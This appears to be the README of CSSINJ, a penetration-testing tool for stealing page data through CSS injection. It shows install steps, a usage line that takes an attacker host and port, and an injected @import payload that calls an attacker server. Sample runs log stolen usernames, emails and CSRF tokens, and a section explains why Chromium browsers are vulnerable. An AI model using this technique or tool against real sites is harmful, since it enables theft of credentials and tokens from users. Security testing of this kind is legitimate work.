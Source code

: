```yaml
---

# CSSINJ  

```
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|
```

## About  

**CSSINJ** is a penetration testing tool that exploits [**CSS injection vulnerabilities**](https://owasp.org/www-project-web-security-testing-guide/stable/4-Web_Application_Security_Testing/11-Client-side_Testing/05-Testing_for_CSS_Injection) to exfiltrate sensitive information from web applications. This tool is designed for security professionals to assess the security posture of web applications by demonstrating how CSS can be used to extract data covertly.  


## Installation  

To install and set up **CSSINJ** from Source, run the following commands:  

```bash
git clone https://github.com/DonAsako/CSSinj.git
cd CSSinj
python3 -m venv venv  
source venv/bin/activate
python3 -m pip install --upgrade pip
python3 -m pip install --upgrade build
python3 -m build
python3 -m pip install .
```

Now you’re ready to use **CSSINJ**! 🎯  

## Usage  

```bash
python3 -m cssinj inject [-h] -H HOSTNAME -p PORT -i IDENTIFIER
```

### Options  

| Option                 | Description                                 |
|------------------------|---------------------------------------------|
| `-h, --help`           | Show help message and exit                  |
| `-H, --hostname`       | Attacker hostname or IP address             |
| `-p, --port`           | Port number of the attacker                 |
| `-e, --element`        | HTML element to extract specific data       |
| `-a, --attribut`       | Specify an element Attribute Selector for exfiltration     |
| `-d, --details`        | Show detailed logs of the exfiltration process, including extracted data |

### Example  

#### Victim's View :
```html
<input type="text" id="username" value="admin" disabled>
<input type="email" id="email" value="admin@admin.XX" disabled>
<input type="text" class="csrf" value="MySecretAdminToken" hidden>
<img src="XXXXXXXXXXX.XX">
...
```

<style>
  @import url('//localhost:5005/start');
</style>
...
```

#### Using a specific CSS identifier : 

```bash
~ python3 CSSINJ.py inject -H 127.0.0.1 -p 5005 -e input
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 02:40:55] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 02:40:56] 🌐 Connection from ::1
[2025-03-11 02:40:56] ⚙️ ID : 1
[2025-03-11 02:40:56] ✅ [1] - The value exfiltrated from input is : MySecretAdminToken
[2025-03-11 02:40:56] ✅ [1] - The value exfiltrated from input is : admin@admin.XX
[2025-03-11 02:40:56] ✅ [1] - The value exfiltrated from input is : admin
```

#### Using a specific CSS attribute selector and a generic CSS identifier:

```bash
~ python3 CSSINJ.py inject -H 127.0.0.1 -p 5005 -e \* -a src
  _____   _____   _____  _____  _   _       _     _____  __     __
 / ____| / ____| / ____||_   _|| \ | |     | |   |  __ \ \ \   / /
| |     | (___  | (___    | |  |  \| |     | |   | |__) | \ \_/ /
| |      \___ \  \___ \   | |  | . ` | _   | |   |  ___/   \   /
| |____  ____) | ____) | _| |_ | |\  || |__| | _ | |        | |
 \_____||_____/ |_____/ |_____||_| \_| \____/ (_)|_|        |_|

[2025-03-11 03:06:49] 🛠️ Attacker's server started on 127.0.0.1:5005
[2025-03-11 03:06:49] 🌐 Connection from ::1
[2025-03-11 03:06:49] ⚙️ ID : 1
[2025-03-11 03:06:49] ✅ [1] - The src exfiltrated from * is : XXXXXXXXXXX.XX
```

## Browser-Specific Behavior

The success of CSS injection attacks using @import depends on the browser's handling of CSS imports:
- Chromium-based browsers (Chrome, Edge, Brave, etc.) allow recursive CSS imports and will process the injected styles, making them vulnerable to exfiltration techniques using @import.

- Firefox, however, handles @import differently:
  - Unlike Chromium-based browsers, Firefox processes all @import rules before applying any styles.
  - As a result, the attack fails because the browser never processes the CSS selectors, preventing data exfiltration.
  - This behavior causes an infinite loop where the browser keeps waiting for a CSS update that never happens.

This difference in behavior makes Chromium-based browsers more susceptible to CSS injection exfiltration, while Firefox provides better protection against such attacks.

## Todo
- General : 
  - [ ] Add error Handler
  - [ ] Add test

- Injection : 
  - [ ] Add injection parameters
  - [ ] Add an option to save results to a file
  - [ ] Allow multiple CSS selectors for simultaneous extraction
  - [ ] Add dump all of the page

- Scan :
  - [ ] Implement automatic detection of CSS injection vulnerabilities
  - [ ] Implement Proxy

## Disclaimer  

This tool is intended **only for ethical hacking and security research**. **Unauthorized use on systems without explicit permission is illegal**. The developer **is not responsible** for any misuse of this tool.  

## Author  

**CSSINJ** was developed by **Asako**.  
